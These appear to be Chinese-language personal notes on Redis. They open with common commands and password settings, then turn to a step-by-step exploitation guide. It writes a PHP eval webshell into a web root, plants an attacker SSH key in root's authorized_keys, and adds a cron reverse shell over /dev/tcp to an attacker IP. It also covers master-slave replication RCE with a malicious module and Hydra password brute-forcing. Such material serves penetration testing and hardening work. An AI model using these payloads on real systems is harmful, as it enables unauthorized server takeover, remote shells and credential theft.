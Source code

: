 # Redis

## 常用命令

- 查看信息：info
- 删除所有数据库内容：flushall
- 刷新数据库：flushdb
- 查看所有键：keys *，使用select num可以查看键值数据
- 设置变量：set aaa “mi1k7ea”
- 查看变量值：get aaa
- 查看备份文件路径：config get dir
- 设置备份文件路径：config set dir dirpath
- 查看备份文件名：config get dbfilename
- 设置备份文件名：config set dbfilename filename
- 保存备份文件：save

## 安全配置密码验证

是否设置了密码验证：

```bash
127.0.0.1:6379> config get requirepass
1) "requirepass"
2) ""
```

默认情况下requirepass参数是空的，这就意味着你无需通过密码验证就可以连接到Redis服务。

你可以通过以下命令来修改该参数：

```bash
127.0.0.1:6379> config set requirepass "cmacckk"
OK
127.0.0.1:6379> config get requirepass
1) "requirepass"
2) "cmacckk
```

使用密码验证用到`AUTH`命令

```bash
127.0.0.1:6379> AUTH "cmacckk"
OK
127.0.0.1:6379> AUTH "testpass"
(error) WRONGPASS invalid username-password pair or user is disabled.
```

## 漏洞

### 未授权访问漏洞

即未设置密码，可直接连接

### 向Web目录写入WebShell

具体步骤就是先写入一个含WebShell代码的键值，然后设置备份目录为Web目录，接着设置备份文件名为WebShell文件名，最后通过save命令保存文件到本地。如下：

```bash
set payload "<?php @eval($_POST[c]);?>"
config set dir /var/www/html/
config set dbfilename shell.php
save
```

### 写入SSH公钥后直接登录

加上两个`\n`是为了避免和Redis里其他缓存数据混合

payload的值为攻击机`/home/***/.ssh/id_rsa.pub`的内容

```bash
config set dir /root/.ssh/
config set dbfilename authorized_keys
set payload "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCezjyBJJ+qsrow5bFZT4/ezNQPmNQPkrQ7VfYIrU5q2NmGwQ/AAU3uL6FRCF3NsU8g3eudncLMw1qQTsTGKW4xI6DDjcszUjCX/vl+KoAlfIlH3+EOV/n8JbGnBMud/FeMTSGvEfw6yPTLIHH9nBwWHVitBoP2kM86eAyeKAGNjtHlPnPF+RMX0oNaijAgJqC3z/Ar2RMf6luwdrVYTBHFZ9ZF51lOJ1xlfHJDVV0VbDhSgZil6eIrEcG8I/tshaWkTAyfxq/2VjMXXU4/JTlxrMqbR5xvL/sC88Yexy07KYdEkFfvmn2XCeT0sM00OB+SlYBqrf1h3XIS1j//uFP5 ski12@ubuntu\n\n"
save
```

或者

```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > m7.txt
cat m7.txt | redis-cli -h 192.168.10.137 -p 6379 set payload
```

最后

```bash
ssh -i id_rsa root@192.168.10.137
```

### 写入定时任务反弹shell

该方法只能CentOS上使用，Ubuntu、Debian上行不通。原因如下：

- 权限问题，Ubuntu定时任务需要root权限；
- Redis备份文件存在乱码，而Debian和Ubuntu对定时任务的格式校验很严格，因此在Debian和Ubuntu上会报错，而在CentOS上不会报错；

原理和前面是一样的，只是备份的目录和文件名修改了下：

```
config set dir /var/spool/cron/crontabs/
config set dbfilename root
set payload "\n\n* * * * * bash -i >& /dev/tcp/192.168.10.307/666 0>&1\n\n"
save
```

不同OS的系统任务调度文件：

```
Ubuntu
/var/spool/cron/crontabs/xxx

Debian
/etc/cron.d/xxx
或
/var/spool/cron/crontabs/xxx

Alpine
/etc/cron.d/xxx
```

> 可进行利用的cron有如下几个地方：
>
> - /etc/crontab 这个是肯定的
> - /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
> - /var/spool/cron/root centos系统下root用户的cron文件
> - /var/spool/cron/crontabs/root debian系统下root用户的cron文件

### 主从复制攻击

4.x、5.x 版本的Redis提供了主从模式。在Redis 4.x 之后，通过外部扩展，可以在Redis中实现一个新的Redis命令，构造恶意.so文件。在两个Redis实例设置主从模式的时候，Redis的主机可以通过FULLRESYNC同步文件到从机上，然后在从机上加载恶意so文件，即可执行命令。

Redis主从数据库之间的同步分为两种：

- 全量复制是将数据库备份文件整个传输过去从机，然后从机清空内存数据库，将备份文件加载到数据库中；
- 部分复制只是将写命令发送给从机；

因此，想要复制备份文件的话就需要设置Redis主机的传输方式为全量传输。

这里我们只需要模拟协议收发包就能伪装成Redis主机了，利用工具如下：

```
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
git clone https://github.com/Ridter/redis-rce.git
```

第一个工具是用于生成恶意的执行shell的so文件；第二个工具是伪造Redis主机的脚本。

首先要生成恶意so文件，下载第一个工具然后make即可生成。

然后在攻击者机器上执行如下命令即可成功RCE：

```
python redis-rce.py -r 192.168.10.137 -p 6379 -L 192.168.10.141 -f module.so
```

### 用Hydra暴力破解Redis密码

使用Hydra工具可以对Redis密码进行暴力破解：

```
hydra -P /home/fragrant/sec_tools/w3af/w3af/core/controllers/bruteforce/passwords.txt redis://192.168.10.137
```